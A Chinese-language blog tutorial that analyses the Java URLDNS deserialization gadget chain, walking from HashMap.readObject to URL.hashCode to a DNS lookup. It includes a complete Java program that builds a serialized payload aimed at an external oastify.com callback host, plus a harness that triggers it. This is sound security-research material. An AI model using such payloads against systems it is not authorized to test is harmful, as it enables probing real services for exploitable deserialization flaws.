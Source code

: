 # URLDNS链分析




# URLDNS链分析

## 1、URLDNS原理

1、 java.util.HashMap重写了readObject方法：

 在反序列化时会调用 hash 函数计算 key 的 hashCode

2、java.net.URL对象的 hashCode 在计算时会调用 getHostAddress 方法

3、getHostAddress方法从而解析域名发出 DNS 请求

**利用链：**

```
Gadget Chain:
  HashMap.readObject()
    HashMap.putVal()
      HashMap.hash()
        URL.hashCode()
```

接下来进行逐一分析：

这个链反序列化的对象是`HashMap`的对象。反序列化`HashMap`的时候会用到这个类自定义的`readObject`：

```java
    private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaObjectInputStreamAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

<img src="https://s1.vika.cn/space/2023/04/10/6addeb48db1c4067b40ff3503667cf21" style="zoom:80%;" />

注意到最后的`putVal(hash(key), key, value, false, false);`，调用了`hash`函数计算哈希值

跟进hash函数：

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

这里调用了键的`hashCode`函数。我们该链中是将其设置成URL类，查看URL类的hashCode函数

```java
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

如果`hashCode==-1`的话，就会重新计算`hashCode`，调用`handler`的`hashCode()`。看一下`handler`：

```java
    transient URLStreamHandler handler;
```

`handler`属性是`URLStreamHandler`类的对象，所以继续跟进`URLStreamHandler`类的`hashCode()`方法：

<img src="https://s1.vika.cn/space/2023/04/10/c040765814824f8f941c1c7f6a09bfce" style="zoom:80%;" />

继续跟进`getHostAddress()`：

<img src="https://s1.vika.cn/space/2023/04/10/37225da516f54e3e9ca869e978687e04" style="zoom: 80%;" />

这⾥ `InetAddress.getByName(host) `的作⽤是根据主机名，获取其IP地址，在⽹络上其实就是⼀次 DNS查询。

## 2、利用

一个很奇妙的点就在于，`HashMap`里面最常用的`put`方法里面居然就有：

```
    public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

理论来说这样使用一次put就会触发一次URLDNS

**那个`key`，即`URL`类的对象的`hashCode`属性值为-1**

考虑到最开始调用`put()`，虽然没有触发`URLDNS`，但是同样调用了`hash()`，导致了传入的`URL`类对象的哈希值被计算了一次，`hashCode`不再是`-1`了，因此还需要再修改它的`hashCode`属性。但是注意这个属性是`private`：

```java
    private int hashCode = -1;
    public synchronized int hashCode() {
        if (hashCode != -1)
            return hashCode;

        hashCode = handler.hashCode(this);
        return hashCode;
    }
```

因此只能用反射：

```java
        //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");
        //使用内部方法
        f.setAccessible(true);
        // put 一个值的时候就不会去查询 DNS，避免和刚刚混淆
        f.set(url, 0xdeadbeef);
        hashMap.put(url, "123");
        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        f.set(url, -1);
```

这样就能修改hashCode为-1

故整体代码如下：

```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;


public class URLDNS {
    public static void main(String[] args) throws Exception {

        //漏洞出发点 hashmap，实例化出来
        HashMap<URL, String> hashMap = new HashMap<URL, String>();

        //URL对象传入自己测试的dnslog
        URL url = new URL("http://1tvcx6l0a7bgc6ztu31ydi4zeqki88wx.oastify.com");

        //反射获取 URL的hashcode方法
        Field f = Class.forName("java.net.URL").getDeclaredField("hashCode");

        //使用内部方法
        f.setAccessible(true);

        // put 一个值的时候就不会去查询 DNS，避免和刚刚混淆
        f.set(url, 0xdeadbeef);
        hashMap.put(url, "123");

        // hashCode 这个属性放进去后设回 -1, 这样在反序列化时就会重新计算 hashCode
        f.set(url, -1);

        //序列化成对象，输出出来
        ObjectOutputStream objos = new ObjectOutputStream(new FileOutputStream("./out.bin"));
        objos.writeObject(hashMap);
    }
}
```

运行序列化过程，查看是否有DNS解析记录发现没有，因为在put之前修改了hashCode的值为非-1这样就不会参与解析，避免跟反序列化构成中的解析混淆

我们执行反序列化过程

```java
import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class test {
    public static void main(String[] args) throws Exception {
        //读取目标
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("./out.bin"));
        //反序列化
        ois.readObject();
    }
}
```

看到解析记录

<img src="https://s1.vika.cn/space/2023/04/10/e680d812cf7c47aaa296c63b8ab2a977" style="zoom:80%;" />


---

> 作者: [xunruo](https://xunruo.top)  
> URL: https://xunruo.top/post/a0fd0c84/  

